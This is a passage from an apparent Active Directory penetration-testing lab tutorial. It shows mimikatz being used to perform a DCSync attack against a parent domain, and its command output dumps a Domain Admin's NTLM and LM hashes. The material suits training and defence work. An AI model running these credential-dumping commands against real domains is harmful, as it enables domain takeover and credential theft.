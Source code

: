 Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.

#### Performing a DCSync Attack

```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:

```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

```